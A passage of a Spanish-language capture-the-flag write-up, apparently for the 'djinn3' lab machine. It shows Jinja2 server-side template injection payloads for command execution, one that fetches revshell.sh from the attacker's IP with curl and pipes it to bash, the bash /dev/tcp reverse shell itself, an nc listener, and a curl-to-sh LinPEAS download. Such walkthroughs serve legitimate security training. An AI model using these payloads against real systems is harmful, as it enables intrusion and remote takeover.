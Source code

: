>Ejecutamos, y las credenciales válidas son las siguientes.

![5.png]({%link assets/img/djinn3/5.png%})

>En caso de no haber podido, podíamos emplear Hydra o abrir el archivo `rockyou.txt` además de los usuarios para hacer fuerza bruta. 

>Este es el sistema de tickets. Bingo. Como la web está corriendo Python, seguramente con Flask, es probable que se efectúe una Server Side Template Injection.

![6.png]({%link assets/img/djinn3/6.png%})

>Abrimos un ticket nuevo, y colocamos el siguiente payload: `\{\{ 4 * 4 \}\}`. Esto debería representar 16 en la web.

![7.png]({%link assets/img/djinn3/7.png%})

![8.png]({%link assets/img/djinn3/8.png%})

>Perfecto. Ahora buscamos en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) alguna forma de inyectar comandos en esta máquina. Elegimos el siguiente payload:

> ` \{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() \}\} `.

![9.png]({%link assets/img/djinn3/9.png%})

>En la web se ve reflejado el siguiente resultado.

![10.png]({%link assets/img/djinn3/10.png%})

>Ahora solo queda mandarnos una shell. Aplicamos el siguiente payload:

>` \{\{ lipsum.__globals__["os"].popen('curl http://192.168.216.133/revshell.sh &#124; bash').read() \}\} `

>`revshell.sh` es un archivo que contiene el siguiente contenido:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/192.168.216.133/443 0>&1'
```

>Abrimos un servidor web con python aplicando el comando `python3 -m http.server 80`, de esta manera hacemos que la máquina víctima haga una petición web con `curl` a nuestro archivo y lo interprete con bash. A su vez, nos ponemos en escucha con el comando `nc -nlvp 443`.

>Mandamos el payload en el servicio de ticketing, y abrimos el nuevo ticket en la página.

![12.png]({%link assets/img/djinn3/12.png%})

![11.png]({%link assets/img/djinn3/13.png%})

>Ganamos acceso a la máquina. Ahora, hacemos una enumeración del sistema con una herramienta como `LinPEAS`. Desde la consola, hacemos un `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`. 
